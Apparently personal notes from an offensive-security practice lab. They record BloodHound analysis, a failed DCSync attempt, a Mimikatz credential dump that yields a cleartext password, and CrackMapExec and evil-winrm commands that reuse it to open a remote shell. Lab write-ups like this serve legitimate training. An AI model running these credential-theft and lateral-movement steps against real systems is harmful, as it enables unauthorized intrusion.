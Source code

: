 ![[Pasted image 20250308132202.png]]

Data did load into bloodhound yay! Marked eric.wallows and secure.secura.yzx as owned.

Ran "Find Shortest Path to Domain Admins"


Maybe?

![[Pasted image 20250308133051.png]]

![[Pasted image 20250308133114.png]]
Gonna try this dcsync attack. This attack is not working. 

Ran #mimikats `sekurlsa::logonpasswords`

Got cleartext password for VM2 

![[Pasted image 20250308135553.png]]
`apache:New2Era4.!` domain `era.secura.local`


![[Pasted image 20250308135959.png]]
Fail smb enum. Trying winrm. 

Nope just had to be more specific. 

`crackmapexec smb 192.168.135.96 -u apache -p 'New2Era4.!' -d era.secura.yzx --shares`

![[Pasted image 20250308141725.png]]

On winrm, we show Pwn3d!
![[Pasted image 20250308141817.png]]

Connect with evilwinrm.

`evil-winrm -i 192.168.135.96 -u apache -p 'New2Era4.!'`

Got shell.
![[Pasted image 20250308142003.png]]

Users
![[Pasted image 20250308142114.png]]

![[Pasted image 20250308142405.png]]

`net user apache`

![[Pasted image 20250308142442.png]]
`ipconfig /all`

![[Pasted image 20250308142850.png]]

Need to priv esc. 
